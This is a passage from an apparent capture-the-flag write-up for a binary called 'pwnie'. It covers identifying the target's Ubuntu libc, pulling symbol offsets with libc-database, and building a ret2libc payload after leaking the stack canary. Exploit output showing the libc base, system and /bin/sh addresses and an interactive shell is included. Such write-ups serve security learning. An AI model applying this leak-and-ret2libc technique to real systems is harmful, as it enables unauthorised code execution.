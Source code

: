 	qemu: uncaught target signal 11 (Segmentation fault) - core dumped
	[*] Got EOF while reading in interactive

In the next step we have to find out which libc is used on the target machine in
order to find out the offset from `__libc_start_main` to the libc base.
This was a really tricky part and somebody even dumped the whole libc with the
memory leak. The intended way was to identify the target's machine ip address as
an Amazon Web Service (aws) machine with a customized aws image, which was
a little bit far fetched in my opinion. Nevertheless using this info we still
need to find out which Linux distro is used in order to identify the image, but
strings does this job for us:

	$ strings pwnie | grep GCC                                                                                              20:36:10  
	GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4

We can now download the libc [.deb](http://security.ubuntu.com/ubuntu/pool/main/e/eglibc/libc6-i386_2.19-0ubuntu6.9_amd64.deb)
packet for the particular aws-image
(http://ap-southeast-1.ec2.archive.ubuntu.com/ubuntu/ trusty-updates/main libc6 i386 2.19-0ubuntu6.9)
(md5sum=545e272e432d8947b85d3f0beff7071f), but I already provided the [libc-2.19.so](libc-2.19.so).

Having the libc we can now search in the libc-database and receive our offsets:

	$ ./identify libc-2.19.so
	id libc6-i386_2.19-0ubuntu6.9_amd64
	$ cat ./dump | grep names
	names="__libc_start_main_ret system dup2 read write str_bin_sh __libc_start_main"
	...
	$ ./dump libc6-i386_2.19-0ubuntu6.9_amd64
	offset___libc_start_main_ret = 0x19ad3
	offset_system = 0x0003fe70
	offset_dup2 = 0x000da1c0
	offset_read = 0x000d9880
	offset_write = 0x000d9900
	offset_str_bin_sh = 0x15da8c
	offset___libc_start_main = 0x000199e0

You can do the same with your local libc in order to test your exploit locally.
With those offsets we can create our final ret2libc payload. According to the
System-V calling convention we push system's address at the rip position and
the address of /bin/sh on spot above. The final exploit is in pwn_pwnie.py:

	$ ./pwn_pwnie.py
	[+] Starting local process './pwnie': Done
	[4061]
	[*] Paused (press any to continue)
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	[*] Sending wrong answer: 13 4
	[*] Canary: 0xb928900
	[*] Sending wrong answer: 17 4
	[*] main rip: 0xf757fa63
	[*] __libc_start_main @ 0xf757f970
	[*] libc-base @ : 0xf7566000
	[*] system @ : 0xf75a43e0
	[*] /bin/sh @ 0xf76c5a89
	[*] Switching to interactive mode
	